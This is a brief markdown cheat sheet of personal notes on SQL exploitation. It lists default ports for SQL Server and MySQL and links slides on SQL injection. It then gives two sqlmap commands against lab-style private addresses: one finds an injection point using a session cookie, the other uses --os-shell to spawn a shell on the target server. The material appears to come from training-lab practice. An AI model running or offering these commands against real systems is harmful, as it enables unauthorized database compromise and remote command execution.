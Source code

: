 <!-- https://cheatography.com/lucbpz/cheat-sheets/the-ultimate-markdown/ -->
# SQL Exploit Cheatsheet
## List of SQL Port Numbers
* **SQL Server**: tcp/1433
* **MySQL**: tcp/3306

## SLQ Injection
https://slides.com/christophe-cybr/sql-explained#/2


## sqlmap
command to find an sql injection vulnerability when there is security using cookies on a webpage
```bash
~$ sqlmap -u 'http://10.129.70.193/dashboard.php?search=anything' --cookie="858ggvh5mjtb181j0grcb6nd3q"
```

perform an sql command injection on the above setup to spawn a shell
```bash
~$ sqlmap -u 'http://10.129.45.252/dashboard.php?search=hello' --cookie="PHPSESSID=sk03u89dk558v7glib9enbl8l1" --os-shell
```



